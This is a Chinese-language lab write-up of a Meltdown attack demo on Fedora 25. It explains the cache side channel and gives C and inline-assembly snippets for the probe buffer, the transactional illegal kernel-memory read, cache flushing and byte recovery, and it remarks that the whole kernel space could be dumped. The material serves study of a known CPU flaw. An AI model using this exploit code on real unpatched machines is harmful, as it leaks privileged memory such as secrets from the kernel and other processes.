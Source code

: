 # Meltdown attack demo

## 实验环境

fedora 25 with linux kernel version 4.8.6-300
gcc 6.4.1

## 实验要点

### 基本思想

一种side-channel attack，其实就是利用乱序执行过程中cache状态的改变，通过测量cache的访问时间得出具体是拿一页被装入了cache，间接知道访问位置的内存信息。

m <- [victim] \
array[m * page_size]

以上两个操作中，第一个执行时候会产生异常，但因为乱序执行，下面的指令也会被执行，导致cache中被装入一个页，通过flush-measure的步骤，我们就可以知道哪一个页被装入，从而知道[victim]

### 具体实现步骤

#### 准备一块内存区域作为访问速度的测量介质

这个的选取方式可以有很多，假如我想每次测一个字节，那么就需要准备256个内存页的空间，相比较下，如果我每次只测一个位，就只需要2个页的内存空间，在我的实验下，我发现其实用每次测一个字节的方式效果最好，比较对象较多的情况下更容易判断出到底哪个页的访问更快。

```c
  int page_size = getpagesize();
  char* poke = (char*)mmap(NULL, 256 * page_size, PROT_READ | PROT_WRITE, MAP_ANON | MAP_SHARED, -1, 0);
```

#### 执行非法访问与普通内存访问操作

为了得到有意义的信息，我其实是选用了一块可以合法访问的区域进行模拟，如果想整个dump内核空间也可以做到。

核心操作是一段访问。

```c
    asm __volatile__ (
    "xbegin 0x6 \n"
    "%=: \n"
    "xorq %%rax, %%rax \n"
    "movb (%[ptr]), %%al \n"
    "shlq $0xc, %%rax  \n"
    "jz %=b  \n"
    "movq (%[buf], %%rax, 1), %%rbx \n"
    "xend \n"
    : 
    :  [ptr] "r" (ptr), [buf] "r" (buf)
    :  "%rax", "%rbx"
    );
```

在这个操作中，会进行关键的向ptr的访问，结果转移到al寄存器，也就是RAX寄存器的末尾以一个字节，下面的操作将RAX寄存器向左移动12位，也就是*4096，一个页的大小，此时使用RAX的值访问BUF，就可以将对应页的内容放入cache。

放入cache后，接下来是访问时间的测量，为了取得好的效果，采用了多次测量取平均值，每次测量结果得出后，都需要执行一次flush操作，重新进行非法访问，内存访问，再测量（其实速度也很快）。

```c
    for (i=0; i<256; i++) {
      flush(&buf[i * page_size]);
    }
```

每次测量第i页的访问时间，将测量时间值放入times[i]，最终得到各个页在16次实验中的平均测量时间，从中选出最大者，其页号就是我们要的内存的数值。

```c
  for (i=0; i<256; i++) {
    victim = (tests[i] > tests[victim]) ? i : victim;
  }
  return victim；
```

这样就得到了一个BYTE的信息，再继续测量下一个byte就可以了。

#### 查看一个内存cache与不cache的访问时间差距有多大

这个我比较好奇，于是在OCTAVE上将测量结果画了出来：

![time](./pictures/time.png)

可以看出确实有一个比其他的时间少好多（横坐标代表BYTE数值，纵坐标是时间），大概是平均水平1/3的样子。

### 实验结果

可以不直接访问secret的内容而得到secret的值。

![res](./pictures/res.png)

### 参考资料：

测量时间的方法来自：https://github.com/defuse/flush-reload-attacks \
X86汇编指南：http://flint.cs.yale.edu/cs421/papers/x86-asm/asm.html \
Meltdown attack: https://github.com/IAIK/meltdown.git \
在线反汇编： https://onlinedisassembler.com/static/home/index.html \